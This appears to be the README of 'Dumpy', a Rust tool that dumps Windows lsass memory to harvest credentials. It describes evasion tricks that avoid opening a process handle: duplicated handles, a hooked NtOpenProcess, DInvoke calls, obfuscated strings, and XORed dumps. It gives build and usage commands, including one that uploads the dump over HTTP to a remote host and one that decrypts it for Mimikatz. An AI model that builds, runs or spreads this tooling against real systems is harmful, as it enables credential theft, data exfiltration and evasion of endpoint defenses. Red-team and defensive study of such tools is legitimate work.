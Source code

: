 # Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NtOpenProcess is hooked before calling MiniDumpWriteDump to avoid the opening of a new process handle over lsass.

NTFS Transaction are used in order to xor the memory dump before storing it on disk.

Support added for both x86 and x64.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	cargo build
	dumpy.exe -h

# Usage

	USAGE:
    dumpy.exe [OPTIONS] <ACTION>

	ARGS:
	    <ACTION>    dump or decrypt

	OPTIONS:
	    -h, --help                         Print help information
	    -i, --input-file <INPUT_FILE>      Encrypted input file [default: c:\temp\input.txt]
	    -k, --key <KEY>                    Encryption key [default: 1234abcd]
	    -o, --output-file <OUTPUT_FILE>    Destination path [default: c:\temp\output.txt]
	    -u, --upload <UPLOAD>              URL where the dump should be uploaded [default:
	                                       http://remotehost/upload]
Dumpy has two main actions:

- **dump**: It will execute the main logic to dump the lsass content. By default, it will store the result in a xored text file with a random name in the current directory. The option upload allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports multipart/form-data requests will work.

	dympy.exe dump -k secretKey -u http://remotehost/upload

- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, it is required to perform a base64 decoding before this decryption process.

	dumpy.exe decrypt -i xored.txt -o decrypted.txt -k secretKey
